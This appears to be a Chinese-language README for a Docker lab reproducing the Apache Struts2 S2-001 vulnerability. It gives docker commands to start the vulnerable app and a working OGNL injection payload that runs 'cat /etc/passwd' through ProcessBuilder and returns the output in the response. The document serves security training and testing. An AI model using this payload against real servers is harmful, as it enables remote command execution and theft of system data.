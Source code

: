 ## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-001 公告](http://struts.apache.org/docs/s2-001.html)
 

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-001
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-001
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：new java.lang.String[]{"cat","/etc/passwd"})

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](S2-001-1.png)

![](S2-001-2.png)
